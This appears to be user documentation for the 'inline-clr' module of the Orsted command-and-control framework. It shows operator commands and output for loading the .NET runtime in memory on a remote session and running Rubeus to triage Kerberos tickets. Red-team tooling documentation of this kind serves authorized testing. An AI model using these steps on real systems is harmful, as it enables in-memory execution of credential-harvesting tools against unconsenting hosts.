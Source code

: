 ```yaml
---

title: inline-clr
descripton: orsted c2 inline-clr
---
```


### General

`inline-clr` allows you to load and run dotnet assembly in-process

```
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr --help

Load and Execute NET Assembly in Memory

Usage:
  inline-clr [flags]

Flags:
  -h, --help     display help

Sub Commands:
  invoke-assembly  Invoke Assembly in CLR
  list-assemblies  List Assembly loaded in CLR
  load-assembly    Load Assmebly in CLR
  start-clr        Load CLR v4
```

It requires you to load the `inline-clr` dll with `load-module inline-clr`

PS: `inline-clr` has ZERO evasion capabilites. Evasion is handled by the `evasion` module.

### start-clr

Before doing anything with `inline-clr` you need to start the clr.

This can be done using

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr start-clr
```

### load-assembly

After loading the CLR, you can load assemblies.

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr load-assembly Rubeus.exe
```
The Path to look for dotnet is defined in `./data/clientconf.toml`

```toml
...
NetAssemblyPath = "./tools/windows/dotnet/"
...
```


### list-assemblies

You can list all the assemblies loaded using

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr list-assemblies
```

The result will be something like

```
[Session 9: haroun@DESKTOP-DU89UIV] »
 >>> incline-clr list-assemblies
 <<<
STDOUT --->
Task Register Successufully
STDERR --->


 >>> incline-clr list-assemblies
 <<< Loaded Assemblies are:
----------------------
rubeus.exe
```

### invoke-assembly

Finally you can `invoke-assembly` with arguments

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr invoke-assembly rubeus.exe triage
```

The output will be something like

```
[Session 9: haroun@DESKTOP-DU89UIV] » inline-clr invoke-assembly rubeus.exe triage
+--------+-----------+---------+--------------------------------+
| TASKID | SESSIONID |  STATE  |            COMMAND             |
+--------+-----------+---------+--------------------------------+
|    100 |         9 | pending | inline-clr invoke-assembly     |
|        |           |         | rubeus.exe triage              |
+--------+-----------+---------+--------------------------------+
[Session 9: haroun@DESKTOP-DU89UIV] »
 >>> inline-clr invoke-assembly rubeus.exe triage
 <<<
STDOUT --->
Task Register Successufully
STDERR --->


 >>> inline-clr invoke-assembly rubeus.exe triage
 <<<
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Triage Kerberos Tickets (Current User)

[*] Current LUID    : 0x598b2

 ---------------------------------------
 | LUID | UserName | Service | EndTime |
 ---------------------------------------
 ---------------------------------------


```

